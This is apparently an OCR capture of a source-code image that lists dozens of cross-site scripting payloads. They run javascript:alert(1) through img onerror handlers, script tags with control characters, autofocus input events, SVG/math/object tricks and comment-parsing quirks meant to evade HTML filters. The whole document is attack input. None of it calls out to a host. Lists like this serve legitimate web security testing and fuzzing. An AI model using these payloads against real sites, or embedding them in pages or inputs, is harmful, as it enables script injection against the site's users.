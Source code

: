       "/><img/onerror=\x0Djavascript:alert(1)\x0Dsrc=xxx:x />
      "/><img/onerror=\x60javascript:alert(1)\x60src=xxx:x />
      "/><img/onerror=\x20javascript:alert(1)\x20src=xxx:x />
      <script\x2F>javascript:alert(1)</script>
      <script\x20>javascript:alert(1)</script>
      <script\x0D>javascript:alert(1)</script>
      <script\x0A>javascript:alert(1)</script>
      <script\x0C>javascript:alert(1)</script>
      <script\x00>javascript:alert(1)</script>
      <script\x09>javascript:alert(1)</script>
      `"'><img src=xxx:x onerror\x0B=javascript:alert(1)>
      `"'><img src=xxx:x onerror\x00=javascript:alert(1)>
      `"'><img src=xxx:x onerror\x0C=javascript:alert(1)>
      `"'><img src=xxx:x onerror\x0D=javascript:alert(1)>
      `"'><img src=xxx:x onerror\x20=javascript:alert(1)>
      `"'><img src=xxx:x onerror\x0A=javascript:alert(1)>
      `"'><img src=xxx:x onerror\x09=javascript:alert(1)>
      <script>javascript:alert(1)<\x00/script>
      <img src=# onerror\x3D"javascript:alert(1)" >
      <input onfocus=javascript:alert(1) autofocus>
      <input onblur=javascript:alert(1) autofocus><input autofocus>
      <video poster=javascript:javascript:alert(1)//
      <body onscroll=javascript:alert(1)><br><br><br><br><br><br>...<br><br><br><br><br><br><br><br><br><br>...<br><br><br><br><br><br><br><br><br><br>...<br><br><br><br><br><br><br><br><br><br>...<br><br><br><br><br><br><br><br><br><br>...<br><br><br><br><input autofocus>
      <form id=test onforminput=javascript:alert(1)><input></form><button form=test onformchange=javascript:alert(1)>X
      <video><source onerror="javascript:javascript:alert(1)">
      <video onerror="javascript:javascript:alert(1)"><source>
      <form><button formaction="javascript:javascript:alert(1)">X
      <body oninput=javascript:alert(1)><input autofocus>
      <math href="javascript:javascript:alert(1)">CLICKME</math>  <math> <maction actiontype="statusline#http://google.com" xlink:href="javascript:javascript:alert(1)">CLICKME</maction> </math>
      <frameset onload=javascript:alert(1)>
      <table background="javascript:javascript:alert(1)">
      <!--<img src="--><img src=x onerror=javascript:alert(1)//">
      <comment><img src="</comment><img src=x onerror=javascript:alert(1))//">
      <![><img src="]><img src=x onerror=javascript:alert(1)//">
      <style><img src="</style><img src=x onerror=javascript:alert(1)//">
      <li style=list-style:url() onerror=javascript:alert(1)> <div style=content:url(data:image/svg+xml,%%3Csvg/%%3E);visibility:hidden onload=javascript:alert(1)></div>
      <head><base href="javascript://"></head><body><a href="/. /,javascript:alert(1)//#">XXX</a></body>
      <SCRIPT FOR=document EVENT=onreadystatechange>javascript:alert(1)</SCRIPT>
      <OBJECT CLASSID="clsid:333C7BC4-460F-11D0-BC04-0080C7055A83"><PARAM NAME="DataURL" VALUE="javascript:alert(1)"></OBJECT>
      <object data="data:text/html;base64,%(base64)s">
      <embed src="data:text/html;base64,%(base64)s">
      <b <script>alert(1)</script>0
      <div id="div1"><input value="``onmouseover=javascript:alert(1)"></div> <div id="div2"></div><script>document.getElementById("div2").innerHTML = document.getElementById("div1").innerHTML;</script>
      <x '="foo"><x foo='><img src=x onerror=javascript:alert(1)//'>
      <embed src="javascript:alert(1)">
      <img src="javascript:alert(1)">